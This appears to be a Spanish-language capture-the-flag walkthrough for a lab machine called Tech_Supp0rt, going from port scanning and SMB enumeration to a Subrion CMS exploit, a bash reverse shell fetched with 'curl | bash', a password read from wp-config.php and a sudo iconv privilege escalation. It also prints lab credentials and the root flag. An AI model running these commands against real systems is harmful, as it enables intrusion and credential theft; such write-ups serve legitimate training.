 # Tech_Supp0rt

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para visualizar los puertos abiertos y servicios que puedan ser vulnerables.

```
nmap -A -sV -sC -Pn -v -oN nmap_report 10.10.249.253
```

Tenemos 4 puertos abiertos: 
- 80
- 22
- 445
- 139

![[Pasted image 20250221184447.png]]

Resultados del script de los posibles CVE's que haya:

![[Pasted image 20250221184525.png]]

## Fuzzing web

Accedemos al sitio web. Es simplemente una página principal de apache.

![[Pasted image 20250221184612.png]]

Usamos`feroxbuster` para buscar más directorios.

```
feroxbuster --url http://10.10.249.253/ -C 404 --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  
```

Encontramos:
- /test
- WordPress

![[Pasted image 20250221191052.png]]

Enumeramos a través del protocolo SMB con`enum4Linux`.

```
enum4linux 10.10.249.253
```

![[Pasted image 20250221191552.png]]

Accedemos al directorio de`/test`. Pero no podemos hacer gran cosa porque esta lleno de popups de alertas.

![[Pasted image 20250221192217.png]]

Después de unos minutos, `enum4linux`nos ha encontrado el usuario`scamsite`:

![[Pasted image 20250221192324.png]]

Intentamos acceder por samba a `websrv`. Le damos a Intro en la contraseña y entramos como anónimo.

```
smbclient \\\\10.10.249.253\\websvr
```

Encontramos un fichero llamado `enter.txt`.

![[Pasted image 20250221192804.png]]

Nos lo descargamos y salimos.

```
get enter.txt
exit
```

![[Pasted image 20250221192921.png]]

Mostramos el contenido del fichero y están los credenciales del admin en wordpress además de un directorio nuevo llamado `/subrion:

![[Pasted image 20250221192953.png]]

`/subrion`descubrimos que tiene un `robots.txt`.

![[Pasted image 20250221193243.png]]

Accedemos a`/panel`.

```
http://10.10.249.253/subrion/panel/
```

![[Pasted image 20250221193332.png]]

## Cracking the password

Volvemos a los credenciales obtenidos anteriormente del admin.

```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
```

Copiamos la contraseña y nos vamos a `CyberChef`. 

![[Pasted image 20250221193642.png]]

Escribimos`magic`en el buscador y lo arrastramos a la receta del centro:

![[Pasted image 20250221193735.png]]

Ponemos la contraseña en el input y nos dice que es Base58 y la contraseña es `Scam2021`.

![[Pasted image 20250221193832.png]]

Y ahora si pudimos acceder al panel de control con la cuenta de admin.

![[Pasted image 20250221193923.png]]

## Escalada de privilegios

Teniendo el nombre de usuario y la contraseña, tenemos una shell utilizando el siguiente script:

https://www.exploit-db.com/exploits/49876

Usaremos el siguiente comando:

```
python3 49876.py -u http://10.10.249.253/subrion/panel/ -l admin -p Scam2021
```

Una vez completado, accedemos automáticamente con el exploit de Subrion CMS con la shell de python:

![[Pasted image 20250221200249.png]]

Creamos un fichero en el host de Kali.

```
nano helloworld.sh
```

Con el siguiente contenido:

```
#! /bin/bash

bash -i >& /dev/tcp/10.8.3.33/4444 0>&1
```

>La IP es la del puerto en escucha que tenemos en Kali.

Abrimos un servidor http con python por el puerto 8080.

```
python3 -m http.server 8080 
```

![[Pasted image 20250221201209.png]]

Escuchamos por el puerto 4444 con `netcat`:

```
nc -nvlp 4444
```

Descargamos y ejecutamos el script en la shell de python que tenemos abierta en la otra terminal:

```
curl 10.8.3.33:8080/helloworld.sh | bash
```

El puerto 4444 que teniamos en escucha establece la conexión.

![[Pasted image 20250221202602.png]]

![[Pasted image 20250221202721.png]]

Nos ubicamos en la siguiente ruta:

```
cd /var/www/html/wordpress
```

Mostramos el fichero de`wp-config.php`:

```
cat wp-config.php
```

Y obtenemos la contraseña:

```
ImAScammerLOL!123!
```

![[Pasted image 20250221204912.png]]

Logeamos en el sitio lleno de popups de antes con los credenciales obtenidos.

Ejecutamos una shell de python:

```
python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh -i
```

![[Pasted image 20250221205106.png]]

Entramos con el usuario`scamsite`:

```
su scamsite
ImAScammerLOL!123!
```

![[Pasted image 20250221205404.png]]

Comprobamos las SUID:

```
find / -user root -perm -4000 -print 2>/dev/null
sudo -l
```

Comprobamos si gtfobins, iconv pueden funcionar con privilegios

```
sudo -u root iconv -f 8859_1 -t 8859_1 "/root/root.txt"
```

Y obtenemos la flag del root:

```
851b8233a8c09400ec30651bd1529bf1ed02790b
```

![[Pasted image 20250221210101.png]]



































